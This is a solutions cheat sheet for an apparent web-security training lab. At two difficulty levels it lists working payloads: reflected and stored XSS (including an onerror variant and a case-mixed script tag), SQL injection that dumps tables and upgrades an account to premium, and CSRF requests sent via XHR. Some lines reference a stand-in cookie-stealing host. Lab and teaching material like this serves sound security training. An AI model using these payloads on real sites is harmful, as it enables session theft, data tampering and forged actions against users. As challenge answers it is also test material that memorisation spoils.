 # Solutions for the WebSec Challenges

This is a short cheat sheet for the challenge solutions.

## *NORMAL* Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<script>alert(document.cookie);</script>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field

### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<script>alert("evil.domain/cookie.php?c=" + document.cookie);</script>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart

### SQLi:

*friends.php*

- Find the necessary table name by reading the instructions and output the whole table to find the important field names

```SQL
'; SELECT * FROM users;--
```

- Enter The SQL code below in the user search bar to upgrade to premium status

```SQL
'; UPDATE users SET user_status = 'premium' WHERE username = '<username>';--
```

### CSRF:

*contact.php*

Here you have a total of three options:

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php

2. Manipulate the product comment field with the JavaScript below and then post a comment with the message you want to send

```html
<script>
var frm = document.getElementById('CSRForm');
frm.action = "contact.php";
document.getElementById('challengeUsername').value="elliot";
document.getElementById('challengePost').name="userPost";
</script>
```

3. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<script>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned");
</script>
```

## *HARD* Difficulty

### Reflective XSS:

*overview.php*

- Enter code in product search bar

```html
<img src="" onerror=javascript:alert(document.cookie)>
```

- Copy the displayed cookie from the alert box (with or without cookie name)

- Enter cookie in the new popup

- (optional) Trigger the popup manually by using the link (Do you want to enter the Challenge Cookie?) beneath the search field


### Stored XSS:

*product.php*


- Enter code in product comment field

```html
<!-- NO space between the string and document.cookie -->
<img src="" onerror=javascript:confirm("evil.domain/cookie.php?c="+document.cookie)>
```

- Accept to steal the session of 'Elliot' by clicking OK

- Add 1 Banana Slicer to Elliot's shopping cart


### SQLi:

*friends.php*

- disable the `maxlength` attribute for the search field with the inspector

- Find the necessary table names by running the code below

```SQL
';SELECT * FROM sqlite_master;--
```

- Enter the SQL code in the user search bar below to update to premium status

```SQL
'; UPDATE premium_users SET status='premium' WHERE username='<username>';--
```

### CSRF:

- Get Elliot's CSRF token from the 'friends' database

```SQL
'; SELECT * FROM users;--
```

Now, you have only 2 options left (since the product comment field is now better secured against XSS attacks):

1. Use the inspector to manipulate the product comment field to send a post request with the corresponding input field names to contact.php (including the token)

2. Send a post request via XHR with the code below from any input field on the site that is vulnerable to XSS attacks (product search and comments)

```html
<ScRiPt>
const xhr = new XMLHttpRequest();
xhr.open("POST", "contact.php");
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("uname=elliot&userPost=pwned&utoken=<token>");
</ScRiPt>
```
